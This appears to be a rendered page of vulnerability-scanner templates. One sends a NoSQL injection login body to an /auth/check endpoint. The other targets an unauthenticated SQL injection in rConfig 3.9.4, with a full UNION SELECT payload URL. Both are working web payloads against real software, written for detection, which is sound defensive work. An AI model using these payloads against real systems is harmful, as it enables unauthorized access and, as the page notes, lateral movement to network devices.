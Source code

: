 - Method - POST
- Method - POST

### URL

- {{BaseURL}}/auth/check
  - {
    "auth": {
    "user": {
    "$eq": "admin"
    },
    "password": [
    0
    ]
    }
    }

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- part - body
- words
  1. password_verify() expects parameter

---

# rConfig 3.9.4 - SQL Injection

## Description

- rConfig 3.9.4 and previous versions have unauthenticated devices.inc.php SQL injection. Because nodes' passwords are stored in cleartext by default, this vulnerability leads to lateral movement, granting an attacker access to monitored network devices.
- severity - critical
- tags - cve,cve2020,rconfig,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/devices.inc.php?search=True&searchField=antani'+union+select+(select+concat(0x223e3c42523e5b70726f6a6563742d646973636f766572795d)+limit+0,1),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL+--+&searchColumn=n.id&searchOption=contains

